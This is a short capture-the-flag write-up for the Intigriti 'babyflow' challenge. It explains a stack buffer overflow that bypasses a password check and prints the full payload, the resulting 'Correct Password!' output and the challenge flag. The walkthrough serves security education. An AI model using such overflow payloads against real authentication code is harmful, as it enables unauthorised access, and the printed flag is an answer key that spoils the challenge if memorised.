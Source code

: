 ```
Does this login application even work?!

nc babyflow.ctf.intigriti.io 1331
```

This challenge you use bufferoverflow to get flag.

```
"SuPeRsEcUrEPaSsWoRd123" (the correct password)
28 As to fill up the buffer
4 bytes of \x00\x00\x00\x00 to overwrite var_14 and make strncmp return 0.
```

Payload : `SuPeRsEcUrEPaSsWoRd123AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00\x00\x00\x00`

```
Enter password: SuPeRsEcUrEPaSsWoRd123AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00\x00\x00\x00
Correct Password!
INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}
```
